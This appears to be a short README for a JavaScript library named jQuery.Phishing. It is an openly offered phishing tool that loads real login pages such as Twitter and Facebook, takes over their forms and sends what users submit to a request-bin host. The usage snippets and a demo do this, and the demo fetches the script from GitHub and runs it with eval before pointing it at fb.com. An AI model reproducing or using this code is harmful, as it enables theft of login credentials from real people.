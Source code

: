 # jQuery.Phishing
## Usage
Phishing and Hijack All Form
```javascript
$.phishing('https://twitter.com/login','//your_request_bin')
```
### onload
```javascript
$.phishing('https://twitter.com/login',()=>alert`onload`)
```
## Demo
1. Open your website
2. F12 call dev-tool -> console -> input:
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{
  eval(c);
  $.phishing(`//fb.com`,`//requestbin.herokuapp.com/1koaluq1`);
});
```
3. try submit form :)
4. see result: [http://requestb.in/1koaluq1?inspect](http://requestb.in/1koaluq1?inspect)
